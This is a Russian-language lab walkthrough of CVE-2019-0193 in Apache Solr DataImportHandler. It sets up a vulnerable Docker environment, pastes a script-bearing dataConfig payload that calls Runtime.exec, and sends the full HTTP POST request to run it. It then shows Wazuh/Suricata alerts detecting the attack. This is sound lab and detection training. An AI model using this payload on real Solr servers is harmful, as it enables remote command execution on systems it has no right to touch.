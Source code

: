 # CVE-2019-0193

В Apache Solr DataImportHandler, необязательный, но популярный модуль для получения данных из баз данных и других источников, имеет функцию, благодаря которой вся конфигурация DIH может быть получена из запроса параметра «dataConfig». \[Режим отладки экрана администратора DIH использует это для удобной отладки/разработки конфигурации DIH.&#x20;

Поскольку конфигурации DIH могут содержать сценарии, злоумышленники могут создавать опасные запросы, которые могут привести к удаленному выполнению команд.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команды:

```
docker compose up -d
docker compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

После запуска и создания нового ядра 'test' по адресу http://ваш-ip:8983 будет доступна веб-страница Apache Solr

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Перейдите на вкладку с новым ядром, затем dataimport -> Debug-Mode и вставьте следующую полезную нагрузку:

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

Затем нажмите кнопку `Execute with this Configuration`&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

После этого отправьте следующий запрос для успешной реализации уязвимости:

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: ваш-ip:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=nNI9Q2RFGsJwDdNGaP5HHbW94e3aIVlTBNoKw9DjUnmRikDe4kOOEcTdK6mFnkc8
Upgrade-Insecure-Requests: 1
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://ваш-ip:8983/solr/
Content-Length: 683

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

```

> Перед отправкой замените csrf-токен на ваш собственный

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

После отправки запроса был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
